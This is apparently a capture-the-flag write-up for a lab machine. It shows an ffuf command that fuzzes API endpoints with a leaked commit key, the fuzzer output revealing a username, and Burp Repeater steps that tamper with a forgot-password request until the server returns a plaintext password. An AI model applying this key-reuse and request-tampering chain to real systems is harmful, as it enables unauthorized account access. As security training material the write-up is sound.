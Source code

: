 ```
```
---
### Exploit
From the commit **Finishing Things**, we found a key **7454c262d0d5a3a0c0b678d6c0dbc7ef**

We cant try **FFUF** and see if we can catch something
```
sudo ffuf -w [PATH]/Common-Credentials/10k-most-common.txt -X POST -d '{"key"="7454c262d0d5a3a0c0b678d6c0dbc7ef"}' -u http://10.10.233.61:8081/api/FUZZ -fw 2
``` 
**Result**
```
/usr/share/seclists/Passwords/Common-Credentials/10k-most-common.txt -X POST -d '{"key":"7454c2[hidden]]c0dbc7ef"}' -u http://10.10.173.255:8081/api/FUZZ -fw 2

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1 Kali Exclusive <3
________________________________________________

 :: Method           : POST
 :: URL              : http://10.10.233.61:8081/api/FUZZ
 :: Wordlist         : FUZZ: /Users/laurentnebout/Documents/Tools/SecLists-master/Passwords/Common-Credentials/10k-most-common.txt
 :: Data             : {"key"="7454c262d0d5a3a0c0b678d6c0dbc7ef"}
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response words: 2
________________________________________________

tommy                   [Status: 200, Size: 49, Words: 1, Lines: 1]
```
Now , we have a username: **tommy**

From the login page at this address: http://[IP]:8081/login, if you click on **Forgot passwod?** and try **tommy**, nothing happened. Let's caprtue the request with Burp ^^
- First: Capture the request from the page  **Forgot passwod?** 
- Second: Send the request to **Repeater**
- Third: on the Reauest, update the key value from NULL --> 7454c262d0d5a3a0c0b678d6c0dbc7ef
- Fourth: Click **Send**
- Fifth: Check **Response**
```
HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 49
Server: Werkzeug/1.0.1 Python/3.6.9
Date: Sun, 23 Jan 2022 20:30:23 GMT

{"username":"tommy","password":"DevMakesStuff01"}
```
Now we have the username and password. Let's SSH the server
**Question**
#### user.txt
